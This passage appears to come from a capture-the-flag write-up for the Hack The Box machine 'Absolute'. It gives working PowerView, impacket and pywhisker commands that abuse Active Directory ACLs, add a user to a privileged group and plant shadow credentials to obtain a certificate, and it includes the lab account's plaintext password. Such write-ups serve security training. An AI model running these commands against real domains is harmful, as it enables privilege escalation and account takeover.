 * Downloaded ActiveDirectory module and Powerview
* Connected to HTB VPN
* Added `absolute.htb` to the `C:\Windows\system32\drivers\etc\hosts` file
* Changed Internet time to `absolute.htb` (Control Panel > Clock and Region > Date and Time > Internet Time and add IP address)
* Changed Network DNS Server to the IP address of DC (Control Panel > Network and Internet > Network and Sharing Center > Change Adapter Settings > Properties of the VPN adapter > Internet Procotol Version 4 Properties > Add the IP of the DC to DNS server.

Then I ran these commands:

<pre class="language-powershell"><code class="lang-powershell"><strong>Import-Module .\PowerView.ps1
</strong><strong>$SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
</strong>$Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
<strong>Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
</strong>Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
</code></pre>

You might need to run the last 2 powershell commands again and again until no errors come up. Afterwards, we can switch back to the Kali machine **quickly!** The AD machine seems to reset this change in configurations super fast.

We need to then run this:

{% code overflow="wrap" %}
```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb; export KRB5CCNAME=m.lovegod.ccache; python3 pywhisker.py -d absolute.htb -u "m.lovegod" -k --no-pass -t "winrm_user" --action "add"
```
{% endcode %}

Afterwards, we should get a .pfx file.

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
